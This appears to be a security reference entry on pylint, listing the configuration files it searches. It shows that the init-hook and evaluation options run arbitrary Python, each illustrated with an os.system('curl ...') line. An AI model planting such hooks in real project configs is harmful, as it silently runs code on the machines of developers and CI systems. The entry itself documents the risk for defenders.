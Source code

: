 ```yaml
---
title: pylint
tags:
- cli
- config-file
- eval-python
references:
- https://pylint.pycqa.org/en/latest/user_guide/usage/run.html#command-line-options
files:
- pylintrc
- pyproject.toml
- .pylintrc
- .pylintrc.toml
---
```


Pylint is a static code analyser for Python. Unless `pylint` is invoked using a specific configuration file, Pylint will search for a configuration file in the current working directory in the following order:

1. `pylintrc`
2. `pylintrc.toml`, in the section `tool.pylint.`
3. `.pylintrc`
4. `.pylintrc.toml`, in the section `tool.pylint.`
5. `pyproject.toml`, in the section `tool.pylint.`
6. `setup.cfg`, in the section  `pylint.`
7. `tox.ini`, in the section `pylint.`

Pylint has 2 configuration options that can execute arbitrary Python code:
```ini
[MAIN]
# Python code to execute, usually for sys.path manipulation such as
init-hook=__import__("os").system("curl ...")

[REPORTS]
# Python expression which should return a score less than or equal to 10. You
# have access to the variables 'fatal', 'error', 'warning', 'refactor',
# 'convention', and 'info' which contain the number of messages in each
# category, as well as 'statement' which is the total number of statements
# analyzed. This score is used by the global evaluation report (RP0004).
evaluation=__import__("os").system("curl ...") or 0
score=yes
```
